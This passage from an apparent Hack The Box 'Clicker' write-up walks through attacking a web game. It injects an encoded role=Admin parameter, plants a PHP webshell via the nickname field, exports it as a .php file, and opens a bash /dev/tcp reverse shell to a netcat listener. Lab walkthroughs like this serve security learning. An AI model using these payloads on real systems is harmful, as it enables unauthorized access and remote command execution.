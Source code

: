 ```txt
GET /save_game.php?clicks=18&%6c%65%76%65%6c%3d%31%2c%72%6f%6c%65=Admin HTTP/1.1
Host: clicker.htb
...
```

> Note: URL decoded `/save_game.php?clicks=18&level=1,role=Admin`

This will enable a new admin page that allows us to export txt, json, and html files with the top players having a score above 1000000, which will then be served by the same web application. So, what we'll do is modify the file extension to export to PHP and also change the `threshold` to 0, so it shows our user as well. Alternatively, you can modify your score to surpass the `threshold`. After this, we'll change our nickname to a PHP webshell. The payload to change the nickname to a webshell is:

```txt
GET /save_game.php?clicks=0&level=1&nickname=%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%24%5f%47%45%54%5b%30%5d%29%3b%20%3f%3e HTTP/1.1
Host: clicker.htb
...
```

> Note: URL decoded  `/save_game.php?clicks=0&level=1&nickname=<?php system($_GET[0]); ?> `

Now, export the PHP file,
```php
POST /export.php HTTP/1.1
Host: clicker.htb
...
threshold=0&extension=php
```

and the response will display the endpoint where the generated PHP is located.

```
/exports/top_players_xbsukcw8.php
```

### Obtain reverse shell 

To send commands to the webshell, use requests like `/exports/top_players_xbsukcw8.php?0=id`. Use netcat to listen on port 9000.

```bash
nc -lvnp 9000
```

and through the webshell, we'll obtain a reverse shell. You can generate a reverse shell payload using [Revshell Tool](https://www.revshells.com/).

```
/exports/top_players_xbsukcw8.php?0=%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%22%2f%62%69%6e%2f%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%31%37%38%2f%39%30%30%30%20%30%3e%26%31%22
```
## Lateral Movement
To view SUID binaries, use:
